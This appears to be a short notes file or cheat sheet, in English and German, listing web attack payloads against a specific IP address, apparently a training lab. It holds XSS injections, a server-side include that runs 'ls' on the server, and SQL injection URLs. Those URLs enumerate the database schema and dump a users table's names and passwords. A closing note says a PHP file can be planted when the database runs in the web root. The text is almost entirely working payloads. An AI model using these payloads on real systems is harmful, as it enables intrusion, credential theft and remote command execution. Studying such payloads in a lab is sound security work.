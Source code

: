 # SQL_XSS

XSS
<script>alert('blabla')</script>

#open a cmd and entre a command on a server using a injiection
 <! --#exec cmd="ls ../" -->  #drop the space

92.60.14.134:8081/xss/iframe3?path=asdfasdf" onload="alert('blabla')

http://92.60.14.134:8081/xss/jsvar1?count=99%22);alert(2);//

http://92.60.14.134:8081/xss/jsvar2?count=33);%3C/script%3E%3Cscript%3Ealert(2)%3C/script%3E

SQL Injection:
105 ' or 1=1 -- -'

http://92.60.14.134:8081/sql/1?category=animal' Union select @@version, null;-- -

Alles auszeigen lassen:
http://92.60.14.134:8081/sql/1?category=animal' Union select table_schema, table_name from 

information_schema.tables;-- -

http://92.60.14.134:8081/sql/1?category=animal' Union select table_name, column_name from 

information_schema.columns ;-- -

http://92.60.14.134:8081/sql/1?category=animal' UNION SELECT user_name,user_password FROM users;-- -

Wenn Datenbank im Root verzeichnis lauft, dann kann ein PHP file eingespielt werden.
